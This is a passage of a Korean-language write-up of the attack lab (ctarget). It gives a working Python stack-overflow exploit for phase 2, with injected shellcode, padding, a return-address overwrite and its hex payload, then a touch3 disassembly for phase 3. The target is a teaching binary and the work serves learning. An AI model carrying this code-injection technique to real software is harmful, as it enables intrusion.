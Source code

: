 해당 Exploit code는 `getbuf` 함수의 buffer에 쓰이게 되며, 이를 opcode로 인식하고 점프시키기 위해 앞서 설명한 (buffer의 address) == `rsp of getbuf`으로 return address를 덮어야 한다. 이를 감안한 최종적인 Exploit code는 다음과 같다.

```py
def phase_2():
    TOUCH_2_ADDR = 0x401702
    
    """
    Ex = asm(
        rf'''
        mov rdi, {COOKIE}
        push {TOUCH_2_ADDR}
        ret
        ''',
        arch='amd64',
        os='linux'
    )
    """

    Ex = b"\x48\xC7\xC7\xC2\x33\xB9\x6E\x68\x02\x17\x40\x00\xC3"
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(GETBUF_RSP_ADDR)

    print(byte2sphex(Ex))

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./ctarget")
```

전달되는 data의 hexadecimal value는 다음과 같다.

```text
48c7c7c233b96e68	// Exploit code with 0x18 byte padding
02174000c3414141	// -> mov rdi, COOKIE; push TOUCH_2_ADDR; ret;
4141414141414141	//
4811645500000000	// Return Address: Address of input buffer (0x55641148)
```

## Phase 3

In `touch3` of `ctarget`:

```assembly
gef➤  disas touch3
Dump of assembler code for function touch3:
   0x00000000004017d6 <+0>:     push   rbx
   0x00000000004017d7 <+1>:     mov    rbx,rdi
   0x00000000004017da <+4>:     mov    DWORD PTR [rip+0x202d18],0x3        # 0x6044fc <vlevel>
   0x00000000004017e4 <+14>:    mov    rsi,rdi
   0x00000000004017e7 <+17>:    mov    edi,DWORD PTR [rip+0x202d17]        # 0x604504 <cookie>
   0x00000000004017ed <+23>:    call   0x401758 <hexmatch>
   0x00000000004017f2 <+28>:    test   eax,eax
   0x00000000004017f4 <+30>:    je     0x401814 <touch3+62>
   0x00000000004017f6 <+32>:    mov    rsi,rbx
   0x00000000004017f9 <+35>:    mov    edi,0x402eb0
   0x00000000004017fe <+40>:    mov    eax,0x0
   0x0000000000401803 <+45>:    call   0x400c80 <printf@plt>
   0x0000000000401808 <+50>:    mov    edi,0x3
   0x000000000040180d <+55>:    call   0x401ae9 <validate>
   0x0000000000401812 <+60>:    jmp    0x401830 <touch3+90>
   0x0000000000401814 <+62>:    mov    rsi,rbx
   0x0000000000401817 <+65>:    mov    edi,0x402ed8
   0x000000000040181c <+70>:    mov    eax,0x0
   0x0000000000401821 <+75>:    call   0x400c80 <printf@plt>
```